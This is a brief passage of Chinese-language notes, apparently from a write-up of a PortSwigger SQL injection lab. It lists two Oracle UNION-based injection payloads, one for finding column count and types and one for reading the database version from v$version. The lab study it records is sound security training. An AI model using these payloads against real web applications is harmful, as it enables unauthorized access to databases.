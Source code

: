 确定字段数量，和类型

payload:

```javascript
'+UNION+SELECT+'abc','def'+FROM+DUAL--
```

oracle数据库查询数据时必须指定表



查询数据库版本：

payload:

```javascript
'union+select+banner,null+from+v$version--+
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/SQL/images/EC263D8EB2E14FEE84D4751848EB6152clipboard.png)

